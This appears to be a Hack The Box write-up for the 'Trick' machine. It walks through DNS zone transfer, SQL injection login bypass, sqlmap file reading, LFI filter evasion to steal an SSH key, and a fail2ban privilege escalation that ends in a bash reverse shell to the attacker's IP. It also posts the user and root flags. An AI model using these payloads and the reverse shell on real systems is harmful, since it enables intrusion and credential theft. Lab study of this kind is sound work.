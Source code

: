 ```yaml
---
title: "Trick from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Trick from HTB
`nmap`gave this:
```bash
nmap -sCV --min-rate 4000 -Pn -p- 10.10.11.166
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 18:19 +04
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.60% done
Nmap scan report for 10.10.11.166
Host is up (0.088s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid:
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
With `53`port open we can use `dig`to get `site name and maybe also subdomains`
```bash
dig @10.10.11.166 axfr trick.htb
------------
----------------
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5
---------------
--------------
```
Add both of them to `/etc/hosts`
```
10.10.11.166 trick.htb preprod-payroll.trick.htb
```
Then go to `preprod-payroll.trick.htb`
This site is vulnerable to `sql injections`which we can see in login page
If you type this: `username---> admin' or 1=1 -- - password---> 1
You will get logged in. Then go to `sqlmap`and read what privileges you have with:
```
sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login --data="username=admin&password=admin" -p username --privileges
```
This will display:
```
[19:04:03] [INFO] adjusting time delay to 3 seconds due to good response times
'ramo'@'localhost'
[19:08:47] [INFO] fetching number of privileges for user 'remo'
[19:08:47] [INFO] retrieved: 1
[19:08:56] [INFO] fetching privileges for user 'remo'
[19:08:56] [INFO] retrieved: FILE
database management system users privileges:
[*] %remo% [1]:
   privilege: FILE
```
This means you can read `files`
Then
```bash
sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login --data="username=admin&password=help" -p username --file-read=/etc/nginx/sites-enabled/default --technique=BEU --batch --level 5 --risk 3 --threads 10
```
With this you will see all the `subdomains`that this site has.
Then read the file that it says for me it was:
```
/home/giorgi/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default
```
Reading that told me that there is an `preprod-marketing.trick.htb`subdomain. Add that to `/etc/hosts`
```
10.10.11.166 trick.htb preprod-marketing.trick.htb
```
For easier way `you could've used ffuf like this preprod-FUZZ.trick.htb` and you would discover this subdomain.
Go to that subdomain and you can see that this subdomain is more vulnerable to `LFI`
If you try to read `/etc/passwd`you can't with `../../../etc/passwd`because site filters this.
it should be like this `....//....//....//etc/passwd`. So basically when you try to read files out of that directory it filters and removes `../`. So if you want to read file in upper directory you will need to double type.
```
/index.php?page=....//....//....//....//....//....///etc/passwd
```
One thing is you should've used `smtp port`to upload `php cmd`but when you can read `id_rsa`file and connect to `ssh`easily you will not need that.
With `/etc/passwd`file you get that `michael`is an user. that you will connect to.
```
/index.php?page=....//....//....//....//....//....//home/michael/.ssh/id_rsa
```
with this you will get `ssh key`
Connect to ssh
***
User Flag is: 91501b7e264f89030af7e348ce858c47
***
```bash
sudo -l
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Then go and search `fail2ban privilege escalation`
I found this site: https://juggernaut-sec.com/fail2ban-lpe/
I changed it a bit
```bash
cd /etc/fail2ban/action.d
mv iptables-multiport.conf whatever
cp whatever iptables-multiport.conf
```
Then change the last line to this:
```
actionban = /tmp/shell.sh
```
Then go to `/tmp`and create `shell.sh`
In `shell.sh`type:
```bash
#!/bin/bash
bash -i >& /dev/tcp/<your_IP>/<port> 0>&1
```
Save it and go to other terminal.
Try to connect to `ssh`but this time type `wrong password`to get banned by `fail2ban`
```bash
ssh michael@trick.htb
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
michael@trick.htb: Permission denied (publickey,password).
.................

.....................
...................
..........................
 ssh michael@trick.htb
ssh: connect to host trick.htb port 22: Connection refused
```
After lot of tries, finally i get `banned`
Then in my `netcat` i set up i get connection where i'm root.
***
Root Flag is: 74a66f08c30f51d742c4246bde0a388f
***
![](/assets/images/Screenshot from 2024-08-15 20-10-30.png)
